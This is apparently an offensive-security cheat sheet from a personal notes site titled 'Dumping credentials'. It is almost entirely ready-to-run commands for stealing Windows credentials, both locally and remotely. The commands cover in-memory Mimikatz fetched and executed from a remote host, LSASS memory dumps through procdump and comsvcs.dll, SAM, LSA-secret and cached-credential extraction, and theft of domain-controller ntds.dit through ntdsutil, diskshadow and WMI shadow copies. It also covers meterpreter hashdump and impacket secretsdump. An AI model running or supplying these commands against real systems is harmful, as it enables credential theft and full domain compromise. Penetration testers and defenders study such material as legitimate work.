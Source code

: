 ```yaml
---
title: "Dumping credentials"
date: 2020-07-16T13:41:37+02:00
draft: true
---
```


## Local
Ways of dumping the lsass.exe process locally
***

#### Using in-memory Mimikatz using PowerShell (Work Out)
```powershell
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```
***

#### LSASS using Task manager
Right click on a the lsass.exe process and select 'Create Dump File'. This will require administrative rights. Hashes can now be dumped using Mimikatz.
```
sekurlsa::minidump <lsass.DMP locations>
sekurlsa::logonpasswords
```
***

#### LSASS using Procdump
```
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```
***

#### LSASS using (native) comsvcs.dll
```
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```
***

#### LSASS using the MiniDumpWriteDump API
Reference: https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass
***

#### SAM using samdump2
Samdump2 is available for both Windows and Linux (Included in Kali). To decrypt the SAM you'll need the SYSTEM hive. When booted from an external medium you can extract both the SAM and SYSTEM file from 'C:\Windows\System32\Config\'. On Windows you can save it to a file using 'reg save':
```
reg save hklm\system system
reg save hklm\sam sam
```
Now you can use samdump2 to decrypt the SAM.
```
samdump2 system sam
```
***

#### LSA Secrets using Mimikatz
LSA Secrets are stored in the registry ('HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets'). You can directly extract them using Mimikatz.
```
token::elevate
lsadump::secrets
```
Or you can retrieve the SYSTEM- and SECURITY-file and dump the credentials after the fact.
```
reg save HKLM\SYSTEM system
reg save HKLM\security security
```
```
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```
***

#### Cached Domain Credentials using mimikatz
```
lsadump::cache
```
***

#### Hashes directly from a domain controller using ntdsutil (lolbin)
```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
The hashes can be dumped offline using secretsdump.py
```
secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit local
```
***

#### Hashes using diskshadow
Put the following commands in a .txt file.
```
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset
```
And execute the following commands
```
mkdir c:\exfil
diskshadow.exe /s C:\users\Administrator\Desktop\shadow.txt
cmd.exe /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
```
The ntds.dit will be actracted and placed in the C:\exfil folder. Execute the following commands to perform cleanup.
```
diskshadow.exe
    > delete shadows volume trophy
    > reset
```
***

## Remote
***

#### Cached Domain Credentials using meterpreter
The 'hashdump' command in meterpreter will dump the local SAM account hashes.
```
hashdump
```
To dump cached domain credentials in the mscach format the 'cachedump' module can be used.
```
getsystem
use post/windows/gather/cachedump
run
```
The output will be in the 'mscache'-format.
***

#### Cached Domain Credentials using secretsdump

Obtain the SAM, SECURITY and SYSTEM hive. Either trough booting from an external medium or using reg.exe.
```
reg.exe save hklm\sam c:\temp\sam.save
reg.exe save hklm\security c:\temp\security.save
reg.exe save hklm\system c:\temp\system.save
```

After obtaining the hashes can be dumped using secretsdump from impacket.
```
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
***

#### Domain controller hashes shadow copy over WMI

Creat a shadow copy of the C drive.
```powershell
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
```
Copy the ntds.dit, SYSTEM and SECURITY hives to C:\temp on the remote machine
```powershell
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY c:\temp\"
```
Mount the remote C:\temp directoy to your local machine
```
net use j: \\dc01\c$\temp /user:administrator 123456; dir j:\
```
Now you can run secretsdump to dump the hashes (as shown in previous examples)